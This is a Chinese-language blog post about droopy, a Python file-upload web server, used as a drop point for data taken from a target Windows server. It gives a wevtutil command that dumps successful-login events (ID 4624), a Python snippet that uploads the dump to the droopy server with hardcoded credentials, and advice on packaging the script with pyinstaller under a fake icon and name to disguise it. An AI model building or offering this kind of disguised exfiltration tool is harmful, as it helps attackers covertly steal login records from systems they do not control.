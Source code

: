 ```yaml
---
title: droopy
description: droopy
categories:
 - tools
 - python
tags: 
 - python
---
```


python写的一个文件上传功能的Web服务器

[源码](http://stackp.online.fr/wp-content/uploads/droopy)

![1594886013](https://yui77111.github.io/assets/images/article/droopy/1594886013.jpg)

我们用到的参数有-d指定上传路径、-a指定访问401验证账号密码

![1594888077](https://yui77111.github.io/assets/images/article/droopy/1594888077.jpg)

![1594888031](https://yui77111.github.io/assets/images/article/droopy/1594888031.jpg)

#### 一、思路

遇到什么大project的时候，经常被要求要获取服务器的3389登录ip，但有时需要的是长时间监控服务器才能获取最新的登录ip，所以这时候就靠自动化

获取本地登录事件并保存到文本->通过droopy上传到服务器->后续可以加短信、邮件或wechat推送通知

和ftp的区别在于，ftp的账号密码是写在文件里的，对面拿到exe可以逆向拿到你ftp的账号密码，登录上去看到你服务器上的文件，而droopy即使拿到了401账号密码进去后也只有一个上传功能，虽説不能保证后面会不会爆什么安全漏洞但目前来説还没有问题。

#### 二、wevtutil获取登录事件

获取事件ID4624并保存到logins.txt里，4624为登录成功日志，多事件ID可用or分隔

```
wevtutil qe Security "/q:*[System [(EventID=4624)]]" /rd:true /f:text > "logins.txt"
```

#### 三、python

```python
class myupload():
    def __init__(self,url):
        self.url = url

    def upload(self,upload_file):
        files = {'upfile':(upload_file.split(sep)[-1],open(upload_file,'rb'),'text/plain',{})}
        request('POST',self.url,data=None,files=files,auth=('thomas','thomastom'))
```

#### 四、效果

![1594889003](https://yui77111.github.io/assets/images/article/droopy/1594889003.jpg)

![1594889124](https://yui77111.github.io/assets/images/article/droopy/1594889124.jpg)

#### 五、其他

将写好的.py用pyinstaller打包，打包的时候可以-i加个icon图标，再把名改改伪造伪造。

py打包exe体积太大可以通过虚拟环境内打包解决

```python
#建立虚拟环境
pipenv install
#进入虚拟环境
pipenv shell
#安装模块
pip install 小工具.py里面用到的模块
#打包的模块也要安装
pip install pyinstaller
#开始打包
pyinstaller -Fw E:\test\url_crawler.py
```

